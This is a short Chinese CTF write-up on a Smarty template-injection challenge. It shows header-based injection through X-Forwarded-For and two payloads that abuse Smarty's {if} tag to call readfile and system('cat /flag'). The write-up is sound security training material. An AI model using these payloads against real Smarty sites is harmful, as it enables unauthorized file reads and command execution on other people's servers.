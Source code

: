 ```yaml
---
layout: '../../layouts/MarkdownPost.astro'  ## 布局文件
title: 'WEB-smarty模板注入'
pubDate: 2022-010-19
description: '刷题ing'
author: 'Snark'
cover:
    url: '../../../public/images/3.jpg'  ## 宽屏图片
    square: ''  ## 方形图片
    alt: 'cover'
tags: ["CTF", "WEB", "刷题"]
theme: 'dark'
featured: true
---
```


# WP

## 解题思路

打开容器后，是个这样的界面，注意最下面的Build With Smarty! , 猜测是smarty模板注入。

![](https://i.328888.xyz/2023/03/17/L8hXE.png)

测试模板注入，用bp抓包，然后插入X-Forwarded-For:{$smarty.version}

![](https://i.328888.xyz/2023/03/17/L8d0Q.png)

回显，版本为3.1.30，说明是smarty模板注入
同时回显中也可发现，php版本是7.3.5，那么这样的话<script language="php">phpinfo();</script> ，就无法使用
同时smarty的版本是3，所以{php}{/php}也无法使用。
但是smarty的if标签也可以执行php代码
payload1:

```
{if readfile('/flag')}{/if}
```

payload2:

```
{if system('cat /flag')}{/if}
```
